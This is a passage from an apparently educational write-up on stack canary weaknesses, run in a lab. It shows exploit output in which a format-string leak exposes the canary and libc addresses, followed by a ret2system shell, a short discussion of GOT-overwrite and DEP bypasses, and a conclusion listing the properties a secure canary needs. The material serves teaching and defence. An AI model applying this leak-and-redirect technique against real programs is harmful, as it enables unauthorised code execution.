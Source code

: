 	ffffffffffffcb9c.f7df9008f7feffaa.f7e062e5f7fe1f60.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.f7fa5d002e786c6c.f7ffdad000000000.ffffcdc0ffffcd78.f7e5e3e9f7fe2b4b.f7fe2a70f7fa5000.108048200.804a014f7ffd918.f7ffdad0f7fe78a2.1f7fd34a0.1.f7fa5d60f7e532d8.0.f7ffd00000000000.ffffcd70080482a0.0.f7e350cbf7df9798.f7fa500000000000.ffffcdb8f7fa5000.f7fa5d60f7e3c696.ffffcda4080487a2.f7fa5d60f7e3c670.f7e3c675f7ffd918.80487a214b94100.

	[+] Canary value is 0x14b94100
	[+] Mid of Stack is @ 0xffffcb9c
	[+] Beginning of Stack is -512 from that: 0xffffc99c
	[+] malloc+26 is @ 0xf7feffaa
	[+] This puts libc base address @ 0xf7df9000
	[+] /bin/sh located @ offset 0x15ba0b
	[+] Shell address is 0xf7f54a0b
	[+] system@libc has offset: 0x3ada0
	[+] This puts the system call to 0xf7e33da0
	[*] Switching to interactive mode
	$ whoami
	lab
	$

We can see in the output that control flow got redirected and popped us a shell!
So what do we do with this information now?

If we assume we have a possible information leak and can get the canary value at all times, bypassing them is not a problem.
Redirection/Changing the control flow of a program is the next big step.

   * Just pulling it back to the Stack will not work if DEP is enabled.
   * Overwriting the GOT is only easily possible if RELRO is only partially enabled, and leaking the canary might not even be needed in this use case,
   * Otherwise good ol' ret2system still works wonders :) 


## Conclusion
The covered approach was first implemented over 20 years ago.  
For such an early adaption the security aspect was quite high.  
But which implications for canaries must be fulfilled if they want to be viable?
We kinda showed that by focusing on their weaknesses!

To be secure, a canary must ensure at least the following properties:

    * be not predictable (must be generated from a source with good entropy)    => depends on the used random generator!
    * must be located in a non-accessible location                              => we were able to access it!
    * cannot be brute-forced                                                    => goes hand in hand with the argument before and was not true!
    * should always contain at least one termination character                  => currently depends on the used canary, so not always the case!
     